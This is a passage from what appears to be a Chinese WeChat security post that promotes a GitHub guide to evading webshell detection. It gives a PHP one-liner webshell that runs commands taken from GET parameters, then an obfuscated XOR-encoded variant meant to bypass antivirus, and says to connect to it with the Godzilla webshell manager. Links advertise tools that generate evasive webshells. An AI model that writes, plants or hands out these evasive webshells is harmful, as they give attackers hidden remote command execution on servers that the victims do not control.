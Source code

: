     
    
    $_GET['a']($_GET['b'])

当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样

  * 

    
    
    system('whoami');

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：

  * 

    
    
    <?=~$_='$<>/'^'{{{{';$___='$+4(/' ^ '{{{{{';@${$_}[_](@${$___}[__]);
    
    
      
    

直接用 Godzilla 哥斯拉来连接，如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624181202.png)

当然这里使用到 `assert` 高危函数，只能用于 `php` 在 `5.*` 的版本，相关姿势读者不妨自行拓展一下哈哈~

所以你学废了吗？更多有趣的WebShell免杀案例等我后续更新~

  

  

 ****

 **下载地址**

 **项目地址：https://github.com/AabyssZG/WebShell-Bypass-Guide**

 **  
**

 **点击最下方名片进入公众号**  

 **  
**

# **  往期推荐**  

[爬网站JS文件，自动fuzz
api接口，指定api接口](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485069&idx=1&sn=e94bad6d0f927441b7cb5c533d2e369d&chksm=fcedb22acb9a3b3cfb57e9d40f8898c51fa4c9fa3562bd112b5d489f9cba5cf81637d1558b53&scene=21#wechat_redirect)  

[生成各类免杀webshell适合市面上常见的几种webshell管理工具、冰蝎、蚁剑、哥斯拉](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485058&idx=1&sn=ac47be9a9d0c6aba0ec991e5213a903e&chksm=fcedb225cb9a3b3312a895ec7da3819216fde632546b644f943a6b31c3b6efa6db3624f6edf7&scene=21#wechat_redirect)  

[一款新的webshell管理工具](http://mp.weixin.qq.com/s?__biz=MzU3MDU5ODg1Ng==&mid=2247485049&idx=1&sn=e02753cc60ea620882710bf9cf7b23b0&chksm=fcedb2decb9a3bc82b6dc1d9da9bc9c112ceedf608732c8d3338b04c4ffa5b44ebe28355272c&scene=21#wechat_redirect)  
